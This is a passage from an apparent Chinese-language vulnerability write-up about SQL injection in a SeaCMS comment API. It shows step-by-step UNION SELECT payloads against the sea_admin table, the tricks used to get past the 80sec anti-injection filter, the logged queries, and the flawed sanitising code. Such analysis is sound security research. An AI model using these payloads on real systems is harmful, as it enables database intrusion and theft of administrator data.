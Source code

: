 ![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZ5hLz7nDicZqgkk5njObiaZ8NiapNfibia3IaVOPO23P8avOPO2f1xqfQCXQ/640?wx_fmt=png)

分析可知，多了个单引号，这个单引号虽然有助于绕过 80sec 防注入，但是在数据库里会出问题，尝试注释搞掉它 因为有过滤，所以试着用下面的方式进行注释

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)@\`/\`@\`\*\`@\`'\`@\`\*\`@\`/\`UNION--%0ASELECT%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

追踪日志执行的语句为

```
SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea\_comment WHERE m\_type=1 AND id in (1)\`/\`\`\*\`\`\\'\`\`\*\`\`/\`UNION--
SELECT#
1,2,3,4,5,6,7,8,9,10,11#
from#
sea\_admin-- \\') AND ischeck=1 ORDER BY id DESC

```

同样不行，也尝试过构造

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)@\`/\*\`@\`'\`@\`\*/\`UNION--%0ASELECT%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

报错

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZCcNoGsot9stlgia1PTrDOTECsAkRPCT5MjcCnamlCUZd1GL2q438RBQ/640?wx_fmt=png)

其实这时候说明成功构造了出了`/**/`, 只不过被拦截了，使用`@`插在`/`和`*`中间打破正则，构造

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)@\`/@\*\`@\`'\`@\`\*/\`UNION--%0ASELECT%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

结果没报错，查看日志发现构造的注释没有了

```
SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea\_comment WHERE m\_type=1 AND id in (1)\`\`\`\\'\`\`\`UNION--
SELECT#
1,2,3,4,5,6,7,8,9,10,11#
from#
sea\_admin-- \\') AND ischeck=1 ORDER BY id DESC

```

这个是因为之前的那个过滤

```
function Readmlist($id,$page,$size)
{
  global $dsql,$type,$pCount,$rlist;
  $rlist = str\_ireplace('@', "", $rlist); 
  $rlist = str\_ireplace('/\*', "", $rlist);
  $rlist = str\_ireplace('\*/', "", $rlist);
  $rlist = str\_ireplace('\*!', "", $rlist);

```
